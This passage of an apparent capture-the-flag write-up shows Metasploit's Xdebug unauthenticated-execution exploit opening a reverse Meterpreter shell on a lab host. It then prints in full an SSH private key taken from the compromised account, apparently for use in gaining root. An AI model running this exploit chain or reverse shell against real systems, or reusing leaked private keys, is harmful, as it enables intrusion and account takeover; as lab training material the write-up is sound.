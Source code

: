 ```
msf6 exploit(unix/http/xdebug_unauth_exec) > run

[*] Started reverse TCP handler on 172.30.0.8:4444
[*] 172.20.0.10:80 - Waiting for client response.
[*] 172.20.0.10:80 - Receiving response
[*] 172.20.0.10:80 - Shell might take upto a minute to respond.Please be patient.
[*] 172.20.0.10:80 - Sending payload of size 2026 bytes
[*] Sending stage (39282 bytes) to 172.30.0.1
[*] Meterpreter session 1 opened (172.30.0.8:4444 -> 172.30.0.1:48412) at 2021-06-20 08:27:01 +0000

meterpreter >
```

We can however now read the user flag in the `/home` directory.

```
wc -c /home/user.txt
33 /home/user.txt
```

# Root

## PKI

There is also a ssh key in www-data's home directory which we copy to our machine and set the permissions to 600.

```
cat /home/www-data/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEA0pNa5qwGZ+DKsS60GPhNfCqZti7z1xPzxOTXwtwO9uYzZpq/
nrhzgJq0nQNVRUbaiZ+H6gR1OreDyjr9YorV2kJqccscBPZ59RAhttaQsBqHkGjJ
QEHYKteL1D+hJ80NDd7fJTtQgzT4yBDwrVKwIUSETMfWgzJ5z24LN5s/rcQYgl3i
VKmls3lsod8ilakdDoYEYt12L4ST/exEoVl0AyD9y8m651q40k1Gz4WzPnaHAlnj
mL6CANfiNAJoc8WnqZN5ruSrWhmivmDbKLlDCO5bCCzi2zMHJKqQkcBxdWk60Qhi
17UJMV3mKVQRprvpeTR2jCMykH81n2KU46doSQIDAQABAoIBAADCHxWtkOhW2uQA
cw2T91N3I86QJLiljb8rw8sj17nz4kOAUyhTKbdQ102pcWkqdCcCuA6TrYhkmMjl
pXvxXAvJKXD3dkZeTNohEL4Dz8mSjuJqPi9JDWo6FHrTL9Vg26ctIkiUChou2qZ9
ySAWqCO2h3NvVMpsKBwjHU858+TASlo4j03FJOdmROmUelcqmRimWxgneHBAHEZj
GqDuPjmPmw7pbThqlETyosrbaB3rROzUp9CKAHzYB1BvOTImDsb6qQ+GdKwewAQf
j60myPuxl4qgY8O2yqLFUH3/ovtPTKqHJSUFBO23wzS1qPLupzu1GVXwlsdlhRWA
Amvx+AECgYEA6OOd9dgqXR/vBaxDngWB6ToVysWDjO+QsjO4OpFo7AvGhMRR+WpK
qbZyJG1iQB0nlAHgYHEFj4It9iI6NCdTkKyg2UzZJMKJgErfgI0Svkh/Kdls23Ny
gxpacxW3d2RlyAv4m2hG4n82+DsoPcN+6KxqGRQxWywXtsBsYkRb+wkCgYEA53jg
+1CfGEH/N2TptK2CCUGB28X1eL0wDs83RsU7Nbz2ASVQj8K0MlVzR9CRCY5y6jcq
te1YYDiuFvT+17ENSe5fDtNiF1LEDfp45K6s4YU79DMp6Ot84c2fBDIh8ogH0D7C
CFdjXCI3SIlvc8miyivjRHoyJYJz/cO94DsTE0ECgYA1HlWVEWz4OKRoAtaZYGA1
Ng5qZYqPxsSWIL3QfgIUdMse1ThtTxUgiICYVmqmfP/d/l+TH7RI+0RIc54a7y1c
PkOhzKlqfQSnwmwgAg1YYWi/vtvZYgeoZ4Zh4X4rOTcN3c0ihTJFzwZWsAeJruFv
aIP6nGR1iyUNhe4yq6zfIQKBgANYQNAA2zurgHeZcrMUqsNdefXmB2UGPtKH9gGE
yhU9tMRReLeLFbWAfJj2D5J2x3xQ7cIROuyxBPr58VDGky2VTzRUo584p/KXwvVy
/LaJiVM/BgUCmhxdL0YNP2ZUxuAgeAdM0/e52time8DNkhefyLntlhnqp6hsEqtR
zzXBAoGBANB6Wdk/X3riJ50Bia9Ai7/rdXUpAa2B4pXARnP1/tw7krfPM/SCMABe
sjZU9eeOecWbg+B6RWQTNcxo/cRjMpxd5hRaANYhcFXGuxcg1N3nszhWDpHIpGr+
s5Mwc3oopgv6gMmetHMr0mcGz6OR9KsH8FvW1y+DYY3tUdgx0gau
-----END RSA PRIVATE KEY-----
```
